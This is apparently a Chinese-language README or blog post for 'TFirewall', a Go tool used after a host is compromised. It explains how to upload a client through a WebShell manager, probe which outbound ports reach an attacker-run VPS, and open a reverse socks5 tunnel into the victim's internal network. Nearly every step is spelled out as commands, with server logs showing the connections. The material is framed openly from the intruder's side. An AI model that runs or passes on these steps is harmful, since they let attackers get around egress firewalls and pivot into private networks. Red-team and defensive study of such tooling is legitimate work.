 ```yaml
---
layout: post
title: TFirewall
category: 工具
tags: firewall,Golang
keywords: firewall,Golang
---
```



TFirewall是测试已控主机哪些端口可以出网及建立内网socks5代理的工具.工具主体使用golang开发,工具包含客户端及服务端,适用于windows,linux,x64,x86.
# 使用方法
## 出网检测
* 将```server_linux_x64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 直接运行```.\server_linux_x64 check```启动监听,工具会自动监听常用的TOP10端口,或通过 ```.\server_linux_x64 check 20-23,53,80```自定义监听端口
* 服务端打印如下信息表示监听成功
```
root@taZ:~# ./server_linux_x64 check 20-23,53,80
Check Server listening:  [20 21 22 23 53 80]
```
* 通过WEBShell管理工具将```client_win_x86.exe```上传到已控服务器
* 运行```client_win_x86.exe check 10.10.10.10```测试TOP10端口哪些可以出网(服务端对应命令```.\server_linux_x64 check```)
* 运行```client_win_x86.exe  check 10.10.10.10 20-23,53,80```探测指定端口(服务端对应命令```.\server_linux_x64 check 20-23,53,80```)
* 观察服务端输出即可查看客户端可以连接服务端哪些端口,使用什么协议

```
root@iZj6cbux9hc5eo9oyud2taZ:~# ./server_linux_x64 check 23,80-82
Check Server listening:  [23 80 81]
RecvTCP On 172.17.20.209:23 From 175.132.138.137:16918 
RecvTCP On 172.17.20.209:80 From 175.132.138.137:50641 
RecvTCP On 172.17.20.209:81 From 175.132.138.137:38747 
RecvUDP On [::]:23 From 175.167.138.137:28822
RecvUDP On [::]:80 From 175.167.138.137:26831
RecvUDP On [::]:81 From 175.167.138.137:26832
```

## 内网socks5代理
* 将```server_linux_x64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 通过 ```.\server_linux_x64 socks5 80 1080```在80端口启动控制监听,1080启动内网socks5端口
* 服务端打印如下信息表示监听成功
```
root@vultr:~# ./server_linux_x64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
```
* 通过WEBShell管理工具将```client_win_x86.exe```上传到已控服务器
* 运行```client_win_x64.exe socks5 10.10.10.10 80```连接服务端
* 使用10.10.10.10:1080作为内网是socks5代理(11.11.11.11是该内网出口路由器的IP地址)
```
root@vultr:~# ./server_linux_x64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
Socks5 new socket from :  11.11.11.11:55943
Control new socket from :  11.11.11.11:55789
```

# 已测试
## server
* ubuntu 18
## client
* Windows 10 
* ubuntu 16
* kali




